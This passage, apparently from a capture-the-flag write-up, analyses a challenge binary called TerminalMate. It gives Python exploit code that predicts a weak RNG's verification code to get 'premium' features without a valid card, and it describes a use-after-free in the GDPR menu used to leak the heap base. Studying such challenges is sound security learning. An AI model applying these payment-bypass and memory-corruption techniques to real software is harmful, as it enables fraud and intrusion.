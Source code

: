 ```python
def gdpr():
    interact("Enter your choice: ", "4")
    interact("Enter your choice: ", "2")

def rename(newname):
    interact("Enter your choice: ", "2")
    interact("Enter your new name: ", newname)
```

# Analysis

## Enabling Premium

`mannheim_random()` is a trivial RNG, using
`seed = BIGNUM1 * seed + BIGNUM2` pattern. What's more, after failing, the
program tells us what the "correct value" (i.e. previous seed) was. This
makes for a trivial process to "get premium":

*   Try once (and fail). Write down the code provided
*   Calculate next code using the same formula as `mannheim_random`
*   Try again, use that code and any string for CC number

This is the first opportunity to use above wrappers for a concise exploit:

```python
def mannheim_random(seed):
    return (0x5851F42D4C957F2D*seed+0x14057B7EF767814F)%(0x10000000000000000)

def premium(username):
    interact("Enter your name (8 chars): ", username)
    interact("Enter your choice: ", "3")
    interact("Enter your credit card number and we will send you a verification code: ", "0")
    interact("Enter the verification code: ", "0")
    interact("It should have been ")
    seed = int(interact(".").decode('ascii').replace(".", ""))
    verification_code = str(mannheim_random(seed))
    interact("Enter your choice: ", "3")
    interact("Enter your credit card number and we will send you a verification code: ", "0")
    interact("Enter the verification code: ", verification_code)

premium("myname")
```

With that, the exploit will put us back in the app dialog - with chat function enabled.

## Use-after-free and leak the heap base

There is a rather obvious UAF in `gdpr_menu()` - tt effectively does
`free(main_user)`, but the program keeps on using it. To test it:

*   Start the exploit
*   Select `GDPR` / `Delete data`. That already gives a hint that something
    is fishy (`"\xbe\xdf!c\x05, what would you like to do?"`)
*   Login to the container, run `gdb -p $(pgrep TerminalMate)`
